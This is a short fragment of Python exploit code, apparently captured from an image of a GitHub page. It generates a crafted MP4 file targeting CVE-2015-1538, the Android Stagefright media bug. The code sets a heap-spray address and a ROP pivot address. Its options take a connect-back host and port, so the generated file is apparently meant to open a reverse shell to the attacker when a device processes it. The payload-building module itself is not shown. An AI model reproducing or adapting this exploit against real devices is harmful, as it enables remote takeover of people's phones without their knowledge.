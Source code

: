     # The address of a fake StrongPointer object (sprayed)
    sp_addr   = 0x41d00010  # takju @ imm76i - 2MB (via hangouts)

    # The address to of our ROP pivot
    newpc_val = 0xb0002850 # point sp at __dl_restore_core_regs

    # Allow the user to override parameters
    parser = argparse.ArgumentParser()
    parser.add_argument('-c', '--connectback-host', dest='cbhost', default='31.3.3.7')
    parser.add_argument('-p', '--connectback-port', dest='cbport', type=int, default=12345)
    parser.add_argument('-s', '--spray-address', dest='spray_addr', type=addr, default=None)
    parser.add_argument('-r', '--rop-pivot', dest='rop_pivot', type=addr, default=None)
    parser.add_argument('-o', '--output-file', dest='output_file', default='cve-2015-1538-1.mp4')
    args = parser.parse_args()

    if len(sys.argv) == 1:
        parser.print_help()
        sys.exit(-1)

    if args.spray_addr == None:
        args.spray_addr = sp_addr
    if args.rop_pivot == None:
        args.rop_pivot = newpc_val

    # Build the MP4 file...
    data = mp4.create_mp4(args.spray_addr, args.rop_pivot, args.cbhost, args.cbport)
    print('[*] Saving crafted MP4 to %s ...' % args.output_file)
    write_file(args.output_file, data)

